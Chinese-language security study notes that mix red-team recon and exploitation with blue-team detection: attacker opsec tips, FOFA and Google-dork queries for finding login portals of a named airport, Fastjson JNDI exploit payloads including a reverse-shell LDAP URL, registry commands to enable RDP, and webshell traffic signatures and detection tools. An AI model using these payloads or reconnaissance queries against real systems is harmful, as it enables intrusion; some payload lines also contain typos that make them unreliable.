红队打点前准备

1.环境安装在虚拟机中，不要留有个人的相关信息

2.虚拟机和物理机隔断，虚拟机走代理上网，物理机断网

3.使用无痕模式浏览器，安装jsonp请求插件

4.动态IP代理池

5.从目标机器上下载文件放到断网虚拟机中

6.每日重置攻击环境



日志分析之IIS

打开IIS日志，win+R运行打开inetmgr

IIS日志不会记录POST的请求的内容，因为被默认为不安全的请求类型。

如果你想开启记录请求体的内容，则开启asp.net的request.querystring集合



Weblogic防御

禁用T3协议和IIOP协议，大多数漏洞都是基于这两个协议触发的。



命令

lsof -i :端口号	#查看占用端口的进程PID

ps aux | grep "进程PID"	#查看进程服务信息

awk -F: '{if($3==0) print $1}' /etc/passwd	#查看ID=0的有root权限的用户

cat etc/passwd | /grep /bin/bash	#查看可以登录ssh的用户

last 		#显示最近登录用户，会显示登录源ip

cat /var/log/secure 	#查看日志，记录的是与系统安全相关的事件，例如SSH登录尝试、sudo命令使用等



高效信息收集打点

组织架构收集：目标单位官网收集，例如总部部门及相关机构，分部，省公司，分公司，直属单位等等。天眼查子公司，控股公司等等。了解你的目标，以及目标所属行业，不同行业打法不同。

fofa快速找登录口

“大兴机场"&country="CN"&&region!="HK"&&region!="TW"&&region!="MO"&&(title="登录"‖title="系统"‖title-="后台"‖title="平台"‖tite="管理"‖title-="入口")

“大兴机场”&&(app="泛微-协同办公OA"‖app="用友-GRP.U8"‖app="用友-U8"‖app="用友-UFIDA-NC"‖app="致远互联-OA"‖app="TDXK-通达OA"‖app="Landray-OA系统“）



谷歌hack语法
查找后台地址：site:域名 inurl:login|admin|manage memberladmin_loginllogin_admin|system|login|user main|cms
查找文本内容：site:域名 intext:管理|后台|登陆|用户名|密码|验证码|系统帐号ladmin|login|sys|managetem|password|username
查找可注入点：site:域名 inurl:aspx| jsp | php| asp
查找上传漏洞：site:域名 inurl:file|load|editor|Files
找eweb编辑器：site:域名 inurl:ewebeditor | editor | uploadfile | eweb | edit
存在的数据库：site:域名 filetype:mdb | asp|#
查看脚本类型：site:域名 filetype:asp |aspx |php |jsp
迂回策略入侵：inurl:cms/data/templates/images/index/



fastjson漏洞（java组件）

fastjsonPOC合集：[safe6Sec/Fastjson: Fastjson姿势技巧集合 (github.com)](https://github.com/safe6Sec/Fastjson)

POC

content-type:applocation/json

```null
[
	{
		"a":"a\x]
#字符dos攻击,延迟类型的payload，服务器响应出错或者明显变慢就是fastjson
```

```
{"@type":"java.net.InetAddress","val":"dnslog"}
# fastjson<1.2.48 ,DNS类payload，原生域名解析dnslog,适用范围广
```

```
{"name":"sec" ; {"@type":"java.lang.AutoCloseable" ; "a" ; a
#报错类payload,畸形的json,想确定fastjson版本就用这类
```

EXP(<=1.2.24)结合JNDIExploit1.4

```
{"@type":"com.sun.rowsetJdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/badClassName","autoCommit":true}

{"@type":"com.alibaba.fastison.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetlmpl","dataSourceName":"rmi://127.0.0.1:8088/badClassName","autoCommit":true"}}

#url可以填rmi或者ldap,rmi-->http ladp-->ldap,查看JNDIExploit1.4的使用帮助，构造url进行命令执行或者反弹shell如:ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/9999
```

当payload不管用时，可尝试以下方法重新构造payload

![image-20240522205455676](C:\Users\Yitai\AppData\Roaming\Typora\typora-user-images\image-20240522205455676.png)



fastjson<1.2.47

```
{
"a":{
	"@type":"java.lang.Class",
	"val":"com.sun.rowset.JdbcRowSetImpl"
	},
"br":{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://localhost:808/badNameclass",
	"autoCommit":true
 	}
}
```

fastjson高版本

版本>=1.2.48，默认关闭Autotype功能，启动黑白名单防护

![image-20240522211853168](C:\Users\Yitai\AppData\Roaming\Typora\typora-user-images\image-20240522211853168.png)



windows文件下载命令

certutil

启用3389端口桌面连接命令

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

关闭3389桌面连接

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000001 /f

查询远程桌面连接的端口号

REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\winStations\RDP-Tcp" /V PortNumber

3389的16进制-->0xd3d

3389连不上原因
1.3389端口号修改了
2.3389没开
3.有些用户没有rdp权限



Apache Shiro框架提供了记住我的功能（RememberMe），用户登陆成功后会生成经过加密并编码的cookie，在服务端接收cookie值后，Base64解码–>AES解密–>反序列化。攻击者只要找到AES加密的密钥，就可以构造一个恶意对象，对其进行序列化–>AES加密–>Base64编码，然后将其作为cookie的rememberMe字段发送，Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞。

Struts 2 使用 Object-Graph Navigation Language（OGNL）作为其默认的表达式语言，用于在视图和控制器之间进行数据交换。攻击者可以构造恶意的OGNL表达式，通过Web请求传递到Struts 2框架中。

 Apache log4j2-RCE 漏洞是由于Log4j2提供的lookup功能下的Jndi ==Lookup==模块出现问题所导致的，==该功能模块在输出日志信息时允许开发人员通过相应的协议去请求远程主机上的资源。而开发人员在处理数据时，并没有对用户输入的信息进行判断，导致Log4j2请求远程主机上的含有恶意代码的资源 并执行其中的代码，从而造成远程代码执行漏洞。



蚁剑流量特征

漏洞参数pass的开头为@ini_set("display_errors", "0")

如：pass=@ini_set("display_errors", "0")xxxxxxxxxxxxx



冰蝎流量特征

固定的请求头和响应头

请求字节头：

dFAXQV1LORcHRQtLRlwMAhwFTAg/M

响应字节头：

TxcWR1NNExZAD0ZaAWMIPAZjH1BFBFtHThcJSlUXWEd



WebShell检测与查杀

在线检测：[阿里云恶意文件检测平台 - 首页 (aliyun.com)](https://ti.aliyun.com/#/overview)、[SHELLPUB.COM在线查杀](https://n.shellpub.com/)河马在线查杀

查杀：[http://www.d99net.net﻿](http://www.d99net.net/) D盾（只支持W）

[https://www.shellpub.com](https://www.shellpub.com/) 河马（支持W、L、M）



##### windows和linux查找天内被修改的.jsp文件

power shell

Get-ChildItem -Path "C:\phpStudy\PHPTutorial\WWW\DVWA" -Recurse -Filter "*.php" | Where-Object { $_.LastWriteTime -ge (Get-Date).AddDays(-1) }

linux

find /path/to/your/webapp -name "*.jsp" -mtime -1



##### windows和linux查找一天内被访问过的.jsp文件

Get-ChildItem -Path "C:\phpStudy\PHPTutorial\WWW\DVWA" -Recurse -Filter "*.jsp" | Where-Object { $_.LastAccessTime -ge (Get-Date).AddDays(-1) }



find /path/to/your/webapp -name "*.jsp" -atime -1



java内存马查杀工具

[c0ny1/java-memshell-scanner: 通过jsp脚本扫描java web Filter/Servlet型内存马 (github.com)](https://github.com/c0ny1/java-memshell-scanner)
